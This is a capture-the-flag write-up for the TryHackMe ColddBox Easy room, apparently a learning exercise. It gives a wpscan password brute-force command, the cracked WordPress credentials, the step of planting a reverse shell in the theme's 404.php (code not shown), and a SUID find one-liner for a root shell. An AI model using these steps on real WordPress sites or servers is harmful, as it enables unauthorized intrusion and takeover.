 #wordpress

https://tryhackme.com/r/room/colddboxeasy

---
#### Nmap
![[Screenshot_2024-05-27_18-07-39.png]]

#### Enumeration

![[Screenshot_2024-05-27_18-34-23.png]]

The directories enumeration gave me a `/hidden` place where there are some usernames:
```text
# U-R-G-E-N-T

## C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

I put the 3 names in a wordlist and I used `wpscan` to bruteforce
```shell
wpscan --url http://10.10.65.39 -P /usr/share/wordlists/rockyou.txt -U users.txt --api-token [token]
```

The wp credentials are `c0ldd:9876543210`

When logged in, I went to `Appearance > Editor` and I replaced the `404.php` by a reverse shell

Then I went on the following url to trigger it
```text
http://10.10.65.39/wp-content/themes/twentyfifteen/404.php
```

And here I am in

I used `linpeas` to enumerate the system and the solution is `find`with the SUID bit:
```shell
find . -exec /bin/sh -p \; -quit
```

And here I am root